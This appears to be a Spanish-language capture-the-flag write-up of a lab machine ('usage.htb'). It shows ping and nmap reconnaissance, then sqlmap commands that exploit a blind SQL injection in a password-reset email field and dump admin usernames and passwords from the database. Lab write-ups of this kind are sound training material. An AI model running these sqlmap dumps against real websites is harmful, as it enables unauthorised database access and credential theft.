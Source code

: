 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

### Blind SQLI

```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
![[Pasted image 20240418105600.png]]

`obtenemos el nombre de la base de datos y el nombre de las tablas`
![[Pasted image 20240418125501.png]]

### sqlmap 
una ves obtenemos la información de la base de datos vamos a realizar la solicitud apuntando al username y password 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
![[Pasted image 20240418131443.png]]

![[Pasted image 20240418131505.png]]

### web
de esta manera logramos conseguir las credenciales que estaban en la base de datos vulnerando el parámetro mal para obtener acceso a la pagina web
``
![[Pasted image 20240603230506.png]]